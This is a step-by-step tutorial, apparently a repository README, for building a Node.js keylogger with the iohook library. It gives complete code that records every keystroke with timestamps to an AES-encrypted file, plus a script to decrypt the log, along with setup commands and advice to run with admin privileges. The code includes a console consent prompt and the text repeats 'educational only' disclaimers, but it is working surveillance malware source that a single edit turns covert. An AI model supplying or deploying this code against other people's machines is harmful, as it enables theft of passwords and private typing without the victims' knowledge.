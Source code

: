 # keyLOG
<!-- Made BY Binary Quest -->

<b>!!! NOTE - THIS CODE IS FOR EDUCATIONAL PURPOSE ONLY.(DON'T TRY IT WITHOUT KNOWLEDGE ABOUT THIS CODE)⚠️
>AUTHORS WON'T BE RESPONSIBLE FOR ANY ILLIGAL ACTIVITY</b>
1) Pre-requisites:

>Install Node.js (v14+ recommended) on your PC.

2) Create a new folder for your project and initialize:
Open your terminal/command prompt:
``
mkdir keylogger
cd keylogger
npm init -y
```

3) Install dependencies
We'll use:

iohook for global keyboard capturing
no external encryption lib needed, Node.js's crypto is sufficient
Install iohook:

```
npm install iohook
```

4) Create the main script: index.js
>step - In your text editor (VS Code, Notepad++, etc.), create a new file called index.js and paste this:

```
const iohook = require('iohook');
const readline = require('readline');
const crypto = require('crypto');
const fs = require('fs');
const path = require('path');

const LOG_FILE = path.join(__dirname, 'keylog.enc'); // encrypted log file path
const ALGORITHM = 'aes-256-cbc';

// Store logs in memory as lines of text
let logs = [];

// Generate a random IV for AES
function generateIV() {
  return crypto.randomBytes(16);
}

// Encrypt string with password using AES-256-CBC
function encrypt(text, password) {
  const iv = generateIV();
  const key = crypto.scryptSync(password, 'salt', 32);
  const cipher = crypto.createCipheriv(ALGORITHM, key, iv);
  let encrypted = cipher.update(text, 'utf8', 'hex');
  encrypted += cipher.final('hex');
  // Return iv + encrypted data as hex
  return iv.toString('hex') + ':' + encrypted;
}

// Ask user confirmation and password
function askQuestion(query) {
  const rl = readline.createInterface({ input: process.stdin, output: process.stdout });
  return new Promise(resolve => rl.question(query, ans => {
    rl.close();
    resolve(ans);
  }));
}

(async () => {
  console.log("!!! WARNING: This program will record ALL your keyboard input.");
  let consent = await askQuestion("Do you want to start capturing keyboard input? (yes/no): ");
  consent = consent.trim().toLowerCase();

  if (consent !== 'yes') {
    console.log("Consent not given. Exiting.");
    process.exit(0);
  }

  const password = await askQuestion("Enter a password to protect your log file: ");
  if (!password) {
    console.log("Password cannot be empty. Exiting.");
    process.exit(1);
  }

  console.log("Keyboard logging started. Press Ctrl+C to stop and save.");

  // Listen for keyboard events
  iohook.on('keydown', event => {
    // Decode key - event.keychar may be undefined for some keys; log raw keycode and timestamp
    const time = new Date().toISOString();
    let keyStr = event.rawcode || event.keycode || event.keychar || 'UnknownKey';
    logs.push(`[${time}] Key: ${keyStr}`);
  });

  iohook.start();

  // On exit, save the encrypted log file
  const saveLogs = () => {
    if (logs.length === 0) {
      console.log("No keystrokes logged.");
      process.exit(0);
    }
    const plainText = logs.join('\n');
    const encrypted = encrypt(plainText, password);
    fs.writeFileSync(LOG_FILE, encrypted, { encoding: 'utf8' });
    console.log(`\nLogs saved encrypted to: ${LOG_FILE}`);
    process.exit(0);
  };

  process.on('SIGINT', () => {
    console.log('\nReceived interrupt signal. Saving logs...');
    iohook.stop();
    saveLogs();
  });

})();
```

5) Usage instructions:
Run the script by typing in terminal:

```
node index.js
```

It will display a warning and prompt:
Do you want to start capturing keyboard input? (yes/no):
Type yes if you want to proceed.

It will ask for a password to protect the log file.
Enter any password you want.

After that, all your key presses will be recorded until you press Ctrl+C to stop.

On exit, your log file will be saved encrypted as keylog.enc in the same folder.

6) To read the log file later
Here's a simple decrypt script you can create as decrypt.js to decrypt and view logs:

```
const crypto = require('crypto');
const fs = require('fs');
const path = require('path');

const LOG_FILE = path.join(__dirname, 'keylog.enc');
const ALGORITHM = 'aes-256-cbc';

function decrypt(encryptedText, password) {
  const [ivHex, encryptedData] = encryptedText.split(':');
  const iv = Buffer.from(ivHex, 'hex');
  const key = crypto.scryptSync(password, 'salt', 32);
  const decipher = crypto.createDecipheriv(ALGORITHM, key, iv);
  let decrypted = decipher.update(encryptedData, 'hex', 'utf8');
  decrypted += decipher.final('utf8');
  return decrypted;
}

const readline = require('readline');
const rl = readline.createInterface({ input: process.stdin, output: process.stdout });

rl.question('Enter password to decrypt log file: ', password => {
  if (!fs.existsSync(LOG_FILE)) {
    console.error('Log file not found!');
    process.exit(1);
  }
  const encryptedContent = fs.readFileSync(LOG_FILE, 'utf8');
  try {
    const decrypted = decrypt(encryptedContent, password);
    console.log('\n--- Decrypted Logs ---\n');
    console.log(decrypted);
  } catch (err) {
    console.error('Failed to decrypt file. Wrong password or corrupted file.');
  }
  rl.close();
});
```

Run it with:

```
node decrypt.js
```

Recap:
You'll have two scripts: index.js (to record) and decrypt.js (to read).
keylog.enc file stores encrypted logs.
Password you provide protects your data.
Notes:
This script uses native Node.js modules and a popular native keylogger iohook.
You might need to build iohook binaries on some platforms, Replit and some environments may not support it well. Preferred to run locally on your PC.
You must run this script with admin privileges on some systems for global keyboard capture.

AGAIN NOT RECOMENDED TO USE WITHOUT PC OWNER'S PERMISSION.
